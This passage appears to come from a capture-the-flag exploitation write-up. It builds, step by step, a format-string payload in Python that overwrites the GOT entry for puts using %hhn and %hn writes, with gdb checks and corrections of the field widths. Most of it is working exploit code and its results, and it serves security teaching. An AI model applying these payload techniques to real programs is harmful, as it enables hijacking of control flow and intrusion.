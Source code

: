 That read from the GOT: `0x08048456`. Next, I replaced the last byte with `0xab`:

```python
payload = "%171x%13$hhn"
# "%13$s%pX"
payload += "A"*12
payload += append_nulls_32(pck32(PUTS_GOT_ADDR))
payload += "C"*16+"D"*16+"E"*16+"F"*16+"G"*16+"H"*6+"\n"
```

Now, with `gdb`, I could see the value `0x080484ab` stored in the GOT address for `puts`. For the second char write I tried:

```python
payload = "%171x%13$hhn%389x%14$hhn"
# "%13$s%pX"
payload += append_nulls_32(pck32(PUTS_GOT_ADDR))
payload += append_nulls_32(pck32(PUTS_GOT_ADDR+1))
payload += "C"*16+"D"*16+"E"*16+"F"*16+"G"*16+"H"*6+"\n"
```

That put `0x080430ab` in the GOT address for `puts`. Whoops! It should have been `0x080485ab`. I wanted to have 389 characters written at the time I did the second write, so the second field width should not be `389` but rather `389-171=218`. Let's try again:

```python
payload = "%171x%13$hhn%218x%14$hhn"
# "%13$s%pX"
payload += append_nulls_32(pck32(PUTS_GOT_ADDR))
payload += append_nulls_32(pck32(PUTS_GOT_ADDR+1))
payload += "C"*16+"D"*16+"E"*16+"F"*16+"G"*16+"H"*6+"\n"
p.send(payload)
```

That did the trick. Okay, time for the last short write, and I also need more space before the GOT addresses in my payload, so I'll extend by 12 characters and write from three parameters later (i.e. starting with direct parameter access to the 16th parameter rather than the 13th). (I'm skipping over how to implement the short writes -- see _Hacking: the Art of Exploitation_ for a thorough treatment of the topic.)

Here's my next payload, after a little debugging:

```python
payload = "%171x%16$hhn%218x%17$hhn%1663x%18$hn"
payload += append_nulls_32(pck32(PUTS_GOT_ADDR))
payload += append_nulls_32(pck32(PUTS_GOT_ADDR+1))
payload += append_nulls_32(pck32(PUTS_GOT_ADDR+2))
payload += "C"*16+"D"*16+"E"*16+"F"*16+"G"*16+"H"*6+"\n"
```

That places `0x080485ab` in the GOT address of `puts`, great! In hindsight, I could indeed have done this with four char writes, and the reason is that any additional bytes that don't fit into the space specified by the write (char, short, or int) don't actually get written to the stack at all. So, previously, writing one char with a value of `0x185` to `0x0804a01d` just truncated the value to be written to `0x85`. Good to know for the future.

Okay, now I should return to the start of `vuln` when I execute the program.
